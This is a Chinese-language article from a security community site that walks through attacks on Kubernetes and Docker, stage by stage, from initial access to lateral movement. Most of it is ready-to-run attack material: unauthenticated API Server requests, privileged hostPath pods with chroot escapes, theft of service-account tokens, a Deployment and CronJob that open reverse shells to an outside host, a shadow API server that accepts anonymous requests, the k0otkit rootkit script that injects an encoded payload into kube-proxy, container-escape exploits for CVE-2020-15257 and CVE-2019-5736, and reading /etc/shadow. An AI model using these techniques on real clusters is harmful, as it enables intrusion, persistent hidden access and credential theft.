







# 云原生之Kubernetes安全 - 先知社区

随着越来越多企业开始上云的步伐，在攻防演练中常常碰到云相关的场景，例如：公有云、私有云、混合云、虚拟化集群等。以往渗透路径是「外网突破 -> 提权 -> 权限维持 -> 信息收集 -> 横向移动 -> 循环收集信息」，直到获得重要目标系统。但随着业务上云以及虚拟化技术的引入改变了这种格局，也打开了新的入侵路径，例如：

-   通过虚拟机攻击云管理平台，利用管理平台控制所有机器
-   通过容器进行逃逸，从而控制宿主机以及横向渗透到K8s Master节点控制所有容器
-   利用KVM-QEMU/执行逃逸获取宿主机，进入物理网络横向移动控制云平台  
    目前互联网上针对云原生场景下的攻击手法零零散散的较多，仅有一些厂商发布过相关矩阵技术，但没有过多的细节展示，本文基于微软发布的Kubernetes威胁矩阵进行扩展，介绍相关的具体攻击方法。  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20211230191129-3cf3693a-6961-1.png)  
    **红色标志是攻击者最为关注的技术点。**  
    \## 初始访问
-   API Server未授权访问
-   kubelet未授权访问
-   Docker Daemon 公网暴露
-   K8s configfile 泄露  
    \### API Server未授权访问  
    API Server作为K8s集群的管理入口，通常使用 8080 和 6443 端口，其中 8080 端口无需认证，6443 端口需要认证且有TLS 保护。如果开发者使用 8080 端口，并将其暴露在公网上，攻击者就可以通过该端口的API，直接对集群下发指令。  
    另一种场景是运维人员配置不当，将"system:anonymous"用户绑定到"cluster-admin"用户组，从而使6443端口允许匿名用户以管理员权限向集群内部下发指令。  
    \`\`\`css  
    #查看pods  
    [https://192.168.4.110:6443/api/v1/namespaces/default/pods?limit=500](https://192.168.4.110:6443/api/v1/namespaces/default/pods?limit=500)

# 创建特权容器

[https://192.168.4.110:6443/api/v1/namespaces/default/pods/test-4444](https://192.168.4.110:6443/api/v1/namespaces/default/pods/test-4444)  
{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\\"apiVersion\\":\\"v1\\",\\"kind\\":\\"Pod\\",\\"metadata\\":{\\"annotations\\":{},\\"name\\":\\"test-4444\\",\\"namespace\\":\\"default\\"},\\"spec\\":{\\"containers\\":\[{\\"image\\":\\"nginx:1.14.2\\",\\"name\\":\\"test-4444\\",\\"volumeMounts\\":\[{\\"mountPath\\":\\"/host\\",\\"name\\":\\"host\\"}\]}\],\\"volumes\\":\[{\\"hostPath\\":{\\"path\\":\\"/\\",\\"type\\":\\"Directory\\"},\\"name\\":\\"host\\"}\]}}\\n"},"name":"test-4444","namespace":"default"},"spec":{"containers":\[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":\[{"mountPath":"/host","name":"host"}\]}\],"volumes":\[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}\]}}

# 执行命令

[https://192.168.4.110:6443/api/v1/namespace/default/pods/test-4444/exec?command=whoami](https://192.168.4.110:6443/api/v1/namespace/default/pods/test-4444/exec?command=whoami)

````plain
创建特权容器详细解释：

创建特权容器
### K8s configfile 泄露
K8s configfile作为K8s集群的管理凭证，其中包含有关K8s集群的详细信息（API Server、登录凭证）。
如果攻击者能够访问到此文件(如办公网员工机器入侵、泄露到 Github 的代码等)，就可以直接通过 API Server 接管 K8s 集群，带来风险隐患。

用户凭证保存在 kubeconfig 文件中，kubectl 通过以下顺序来找到 kubeconfig 文件：
1.如果提供了--kubeconfig参数，就使用提供的 kubeconfig 文件。
2.如果没有提供--kubeconfig 参数，但设置了环境变量 $KUBECONFIG，则使用该环境变量提供的 kubeconfig 文件。
3.如果以上两种情况都没有，kubectl 就使用默认的 kubeconfig 文件 $HOME/.kube/config。

拿到K8s configfile完整利用流程：
K8s configfile --> 创建后门Pod/挂载主机路径 --> 通过Kubectl进入容器 --> 利用挂载目录逃逸。
```css
#Linux安装kubectl
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
sudo install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl

#内容放入config、或指定选项，需要修改Server地址
kubectl --kubeconfig k8s.yaml

#获取已接取的镜像
kubectl get pods --all-namespaces --insecure-skip-tls-verify=true -o jsonpath="{..image}" |tr -s '[[:space:]]' '\n' |sort |uniq -c

#创建Pod pod.yaml，将宿主机根目录挂载host文件
apiVersion: v1
kind: Pod
metadata:
  name: test-444
spec:
  containers:
  - name: test-444
    image: nginx:1.14.2
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory

#在default命名空间中创建pod
kubectl apply -f pod.yaml -n default --insecure-skip-tls-verify=true

#进入容器中
kubectl exec -it test-444 bash -n default --insecure-skip-tls-verify=true

#切换bash，逃逸成功
cd /host
chroot ./ bash
````

### Docker Daemon 公网暴露

Docker以C/S模式工作，其中docker daemon服务在后台运行，负责管理容器的创建、运行和停止操作。  
在Linux主机上，docker daemon监听在/var/run/docker.sock中创建的unix socket，2375端口用于未认证的HTTP通信，2376用于可信HTTPS通信。  
在最初版本安装Docker时默认会把2375端口对外开放，目前默认只允许本地访问。

管理员开启远程访问的配置如下：

```plain
#开启远程访问
vim /lib/systemd/system/docker.service
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375 -containerd=/run/containerd/containerd.sock
```

Docker Daemon未授权访问的检测与利用：

```plain
#探测是否访问未授权访问
curl http://192.168.238.129:2375/info
docker -H tcp://192.168.238.129:2375 info

#推荐使用这种方式，操作方便。
export DOCKER_HOST="tcp://192.168.238.129:2375"
```

Docker Daemon未授权实战案例：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20211230191549-d7d67c4e-6961-1.png)

## 执行

-   利用Service Account
-   CURL方式请求
-   kubectl方式请求

### 利用Service Account

K8s集群创建的Pod中，容器内部默认携带K8s Service Account的认证凭据，路径为：(/run/secrets/kubernetes.io/serviceaccount/token)  
如运维配置不当没有设置RBAC（基于角色的访问控制）,那么攻击者就可以通过Pod获取到Token进行API Server认证。  
在较低版本v1.15.11中,Kubernetes默认是不会开启RBAC控制，从1.16版本起，默认启用RBAC访问控制策略。从1.18开始，RBAC已作为稳定的功能。

下面就是利用Pod中的Token访问API Server的一种场景：

```plain
#指向内部 API 服务器主机名
export APISERVER=https://${KUBERNETES_SERVICE_HOST}

#设置 ServiceAccount 令牌的路径
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount

#读取 pods 命名空间并将其设置为变量。
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)

#读取 ServiceAccount 不记名令牌
export TOKEN=$(cat ${SERVICEACCOUNT}/token)

# CACERT 路径
export CACERT=${SERVICEACCOUNT}/ca.crt

执行以下命令查看当前集群中所有Namespaces。
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces

#写入yaml,创建特权Pod
cat > nginx-pod.yaml << EOF
apiVersion: v1
kind: Pod
metadata:
  name: test-444
spec:
  containers:
  - name: test-444
    image: nginx:1.14.2
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
EOF

#创建pod
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -k ${APISERVER}/api/v1/namespaces/default/pods -X POST --header 'content-type: application/yaml' --data-binary @nginx-pod.yaml

#查看信息
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/default/pods/nginx

#执行命令
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespace/default/pods/test-444/exec?command=ls&command=-l
or
api/v1/namespaces/default/pods/nginx-deployment-66b6c48dd5-4djlm/exec?command=ls&command=-l&container=nginx&stdin=true&stdout=true&tty=true
```

## 持久化

-   DaemonSets、Deployments
-   Shadow API
-   Rootkit
-   cronjob持久化  
    Deployment  
    创建容器时，通过启用DaemonSets、Deployments，可以使容器和子容器即使被清理掉了也可以恢复，攻击者经常利用这个特性进行持久化，涉及的概念有：
-   ReplicationController（RC）  
    ReplicationController确保在任何时候都有特定数量的 Pod 副本处于运行状态。
-   Replication Set（RS）  
    Replication Set简称RS，官方已经推荐我们使用RS和Deployment来代替RC了，实际上RS和RC的功能基本一致，目前唯一的一个区别就是RC只支持基于等式的selector
-   Deployment  
    主要职责和RC一样，的都是保证Pod的数量和健康，二者大部分功能都是完全一致的，可以看成是一个升级版的RC控制器  
    官方组件kube-dns、kube-proxy也都是使用的Deployment来管理

这里使用Deployment来部署后门

```plain
#dep.yaml
apiVersion: apps/v1
kind: Deployment        #确保在任何时候都有特定数量的Pod副本处于运行状态
metadata:
  name: nginx-deploy
  labels:
    k8s-app: nginx-demo
spec:
  replicas: 3       #指定Pod副本数量
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      hostNetwork: true
      hostPID: true
      containers:
      - name: nginx
        image: nginx:1.7.9
        imagePullPolicy: IfNotPresent
        command: ["bash"]   #反弹Shell
        args: ["-c", "bash -i >& /dev/tcp/192.168.238.130/4242 0>&1"]
        securityContext:
          privileged: true  #特权模式
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
          type: Directory

#创建
kubectl create -f dep.yaml
```

### Shadow API Server

如果部署了一个shadow api server，那么该api server具有和集群中现在的api server一致的功能。同时开启了全部k8s权限，接受匿名请求且不保存审计日志，这将方便攻击者无痕迹的管理整个集群以及进行后续渗透行动。

Shadow API Server的配置与利用：

```plain
配置文件路径：
/etc/systemd/system/kube-apiserver-test.service

#一键部署Shadow apiserver
./cdk run k8s-shadow-apiserver default

#一键部署将在配置文件中添加了如下选项：
--allow-privileged
--insecure-port=9443
--insecure-bind-address=0.0.0.0
--secure-port=9444
--anonymous-auth=true
--authorization-mode=AlwaysAllow

#kcurl访问与利用
./cdk kcurl anonymous get https://192.168.1.44:9443/api/v1/secrets
```

### Rootkit

这里介绍一个k8s的rootkit，k0otkit 是一种通用的后渗透技术，可用于对 Kubernetes 集群的渗透。使用 k0otkit，您可以以快速、隐蔽和连续的方式（反向 shell）操作目标 Kubernetes 集群中的所有节点。

K0otkit使用到的技术：

-   DaemonSet和Secret资源（快速持续反弹、资源分离）
-   kube-proxy镜像（就地取材）
-   动态容器注入（高隐蔽性）
-   Meterpreter（流量加密）
-   无文件攻击（高隐蔽性）  
    \`\`\`css  
    #生成k0otkit  
    ./pre\_exp.sh

# 监听

./handle\_multi\_reverse\_shell.sh

````plain
k0otkit.sh的内容复制到master执行：
```css
volume_name=cache
mount_path=/var/kube-proxy-cache
ctr_name=kube-proxy-cache
binary_file=/usr/local/bin/kube-proxy-cache
payload_name=cache
secret_name=proxy-cache
secret_data_name=content

ctr_line_num=$(kubectl --kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | awk '/ containers:/{print NR}')
volume_line_num=$(kubectl --kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | awk '/ volumes:/{print NR}')
image=$(kubectl --kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | grep " image:" | awk '{print $2}')

# create payload secret
cat << EOF | kubectl --kubeconfig /root/.kube/config apply -f -
apiVersion: v1
kind: Secret
metadata:
  name: $secret_name
  namespace: kube-system
type: Opaque
data:
  $secret_data_name: N2Y0NTRjNDYwMTAxMDEwMDAwMDAwMDAwMDAwMDAwMDAwMjAwMDMwMDAxMDAwMDAwNTQ4MDA0MDgzNDAwMDAwMDAwMDAwMDAwMDAwMDAwMDA......

# inject malicious container into kube-proxy pod
kubectl --kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml \
  | sed "$volume_line_num a\ \ \ \ \ \ - name: $volume_name\n        hostPath:\n          path: /\n          type: Directory\n" \
  | sed "$ctr_line_num a\ \ \ \ \ \ - name: $ctr_name\n        image: $image\n        imagePullPolicy: IfNotPresent\n        command: [\"sh\"]\n        args: [\"-c\", \"echo \$$payload_name | perl -e 'my \$n=qq(); my \$fd=syscall(319, \$n, 1); open(\$FH, qq(>&=).\$fd); select((select(\$FH), \$|=1)[0]); print \$FH pack q/H*/, <STDIN>; my \$pid = fork(); if (0 != \$pid) { wait }; if (0 == \$pid){system(qq(/proc/\$\$\$\$/fd/\$fd))}'\"]\n        env:\n          - name: $payload_name\n            valueFrom:\n              secretKeyRef:\n                name: $secret_name\n                key: $secret_data_name\n        securityContext:\n          privileged: true\n        volumeMounts:\n        - mountPath: $mount_path\n          name: $volume_name" \
  | kubectl --kubeconfig /root/.kube/config replace -f -
````

### cronjob持久化

CronJob 用于执行周期性的动作，例如备份、报告生成等，攻击者可以利用此功能持久化。

```plain
apiVersion: batch/v1
kind: CronJob       #使用CronJob对象
metadata:
  name: hello
spec:
  schedule: "*/1 * * * *"   #每分钟执行一次
  jobTemplate:
    spec:
      template:
        spec:
          containers:
          - name: hello
            image: busybox
            imagePullPolicy: IfNotPresent
            command:
            - /bin/sh
            - -c
            - #反弹Shell或者木马  
          restartPolicy: OnFailure
```

## 权限提升

-   特权容器逃逸
-   Docker漏洞
-   Linux Capabilities逃逸  
    \### 特权容器逃逸  
    当容器启动加上--privileged选项时，容器可以访问宿主机上所有设备。  
    而K8s配置文件启用了privileged: true:  
    \`\`\`css  
    spec:  
    containers:
-   name: ubuntu  
    image: ubuntu:latest  
    securityContext:  
    privileged: true
    
    ````plain
    实战案例：
    通过漏洞获取WebShell，查看根目录存在.dockerenv，可通过fdisk -l查看磁盘目录，进行挂载目录逃逸:
    ```css
    #Webshell下操作
    fdisk -l
    mkdir /tmp/test
    mount /dev/sda3 /tmp/test
    chroot /tmp/test bash
    ````
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20211230192224-c344e882-6962-1.png)  
    \### Docker漏洞  
    这里介绍两个知名的docker逃逸漏洞。  
    \#### CVE-2020-15257  
    在Containerd 1.3.9版本之前和1.4.0~1.4.2版本，使用了--host网络模式，会造成containerd-shim API暴露，通过调用API功能实现逃逸。  
    Host模式特点：
-   共享宿主机网络
-   网络性能无损耗
-   各容器网络无隔离
-   网络资源无法分别统计
-   端口管理困难
-   不支持端口映射
    
    ```plain
    #判断是否使用host模式
    cat /proc/net/unix | grep 'containerd-shim'
    ```
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20211230192346-f3f41b74-6962-1.png)
    
    ```plain
    #反弹宿主机的shell到远端服务器
    ./cdk_linux_386 run shim-pwn reverse 192.168.238.159 4455
    ```
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20211230192418-06f92066-6963-1.png)  
    \#### CVE-2019-5736  
    当runc动态编译时，会从容器镜像中载入动态链接库，导致加载恶意动态库；当打开/prco/self/exe即runc时，会执行恶意动态链接库中的恶意程序，由于恶意程序继承runc打开的文件句柄，可以通过该文件句柄替换host上的runc。  
    此后，再次执行runc相关的命令，则会产生逃逸。

版本漏洞：  
docker version <=18.09.2  
RunC version <=1.0-rc6

利用过程：

```plain
#下载POC
https://github.com/Frichetten/CVE-2019-5736-PoC

#编译
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

利用成功是将/etc/shadow文件复制到/tmp/目录下

```plain
#将编译的main复制到docker容器中，实战是用WebShell上传
docker cp main name:/home
cd /home/
chmod 777 main
./main
#此时等管理员进入容器将触发：

或将第16行改为反弹Shell，获得宿主机权限。

```

### Capabilities

Capabilities是Linux一种安全机制，是在Linux内核2.2之后引入的，主要作用是权限更细粒度的控制。容器社区一直在努力将纵深防御、最小权限等理念和原则落地。  
目前Docker已经将Capabilities黑名单机制改为了默认禁止所有Capabilities，再以白名单方式赋予容器运行所需的最小权限。

```plain
#查看Capabilities
cat /proc/self/status | grep CapEff
capsh --print
```

Capabilities允许执行系统管理任务，如加载或卸载文件系统、设置磁盘配额等

-   cap\_sys\_ptrace-container
-   cap\_sys\_admin-container
-   cap\_dac\_read\_search-container  
    实际场景不多，逃逸方法参考挂载目录方式。  
    \## 探测
-   内网扫描
-   K8s常用端口探测
-   集群内部网络  
    \### 集群内网扫描  
    Kubernetes的网络中存在4种主要类型的通信
-   同一Pod内的容器间通信
-   各Pod彼此间通信
-   Pod与Service间的通信
-   集群外部的流量与Service间的通信。  
    所以和常规内网渗透无区别，nmap、masscan等扫描  
    \### K8s常用端口探测  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20211230192814-93b19632-6963-1.png)  
    \### 集群内部网络
-   Flannel网络插件默认使用10.244.0.0/16网络
-   Calico默认使用192.168.0.0/16网络  
    \## 横向移动
-   污点(Taint)横向渗透

### 污点(Taint)横向渗透

污点是K8s高级调度的特性，用于限制哪些Pod可以被调度到某一个节点。一般主节点包含一个污点，这个污点是阻止Pod调度到主节点上面，除非有Pod能容忍这个污点。而通常容忍这个污点的 Pod都是系统级别的Pod，例如kube-system  
[](https://xzfile.aliyuncs.com/media/upload/picture/20211230192916-b8c1994a-6963-1.png)  
**—个pod只有容忍了节点的污点，才能被调度到该节点上面**

```plain
#Node中查看节点信息
[root@node1 ~]# kubectl get nodes
NAME              STATUS                     ROLES    AGE   VERSION
192.168.238.129   Ready,SchedulingDisabled   master   30d   v1.21.0
192.168.238.130   Ready,SchedulingDisabled   master   30d   v1.21.0
192.168.238.131   Ready                      node     30d   v1.21.0
192.168.238.132   Ready                      node     30d   v1.21.0

#确认Master节点的容忍度
[root@node1 ~]# kubectl describe nodes 192.168.238.130
Name:               192.168.238.130
Roles:              master
Labels:             beta.kubernetes.io/arch=amd64
                    beta.kubernetes.io/os=linux
                    kubernetes.io/arch=amd64
                    kubernetes.io/hostname=192.168.238.130
                    kubernetes.io/os=linux
                    kubernetes.io/role=master
Annotations:        flannel.alpha.coreos.com/backend-data: {"VtepMAC":"66:3b:20:6a:eb:ff"}
                    flannel.alpha.coreos.com/backend-type: vxlan
                    flannel.alpha.coreos.com/kube-subnet-manager: true
                    flannel.alpha.coreos.com/public-ip: 192.168.238.130
                    node.alpha.kubernetes.io/ttl: 0
                    volumes.kubernetes.io/controller-managed-attach-detach: true
CreationTimestamp:  Tue, 14 Sep 2021 17:41:30 +0800
Taints:             node.kubernetes.io/unschedulable:NoSchedule

#创建带有容忍参数的Pod
kubectl create -f control-master.yaml

#control-master.yaml内容：
apiVersion: v1
kind: Pod
metadata:
  name: control-master-15
spec:
  tolerations:
    - key: node.kubernetes.io/unschedulable
      operator: Exists
      effect: NoSchedule
  containers:
    - name: control-master-15
      image: ubuntu:18.04
      command: ["/bin/sleep", "3650d"]
      volumeMounts:
      - name: master
        mountPath: /master
  volumes:
  - name: master
    hostPath:
      path: /
      type: Directory

#获得Master控制端
kubectl exec control-master-15 -it bash
chroot /master bash
cat /etc/shadow
```

## 结论

-   目前黑产团伙通过批量扫描然后利用未授权进行挖矿。
-   当前攻防技术处于初级阶段，但随着云原生攻击武器的发展，攻击门槛也会相应降低。
-   虚拟机/容器逃逸攻击、供应链攻击等新型技术攻击方式，将会呈现出快速增长的趋势，此类攻击难度很高，带来的危害和影响也很大。
-   私有云部署在企业业务生产网，云的底座网络、物理设备与业务网络在同一安全域，大多时候缺乏有效隔离。
-   私有云产品属于定制开发，使用大量第三方组件，会随着时间和安全研究人员的研究而暴露。

- - -

参考链接：  
1.TeamTNT Targets Kubernetes, Nearly 50,000 IPs Compromised in Worm-like Attack  
[https://www.trendmicro.com/en\_us/research/21/e/teamtnt-targets-kubernetes--nearly-50-000-ips-compromised.html](https://www.trendmicro.com/en_us/research/21/e/teamtnt-targets-kubernetes--nearly-50-000-ips-compromised.html)

2.Threat matrix for Kubernetes  
[https://www.microsoft.com/security/blog/2020/04/02/attack-matrix-kubernetes/](https://www.microsoft.com/security/blog/2020/04/02/attack-matrix-kubernetes/)

3.Kubernetes Attack Surface  
[https://www.optiv.com/insights/source-zero/blog/kubernetes-attack-surface](https://www.optiv.com/insights/source-zero/blog/kubernetes-attack-surface)

4.Attack methods and defenses on Kubernetes  
[https://dione.lib.unipi.gr/xmlui/handle/unipi/12888](https://dione.lib.unipi.gr/xmlui/handle/unipi/12888)

5.k0otkit  
[https://github.com/Metarget/k0otkit](https://github.com/Metarget/k0otkit)

6.CVE-2019-5736-Poc  
[https://github.com/Frichetten/CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC)

7.修复Docker操作系统命令注入漏洞公告（CVE-2019-5736）  
[https://support.huaweicloud.com/bulletin-cce/cce\_bulletin\_0015.html](https://support.huaweicloud.com/bulletin-cce/cce_bulletin_0015.html)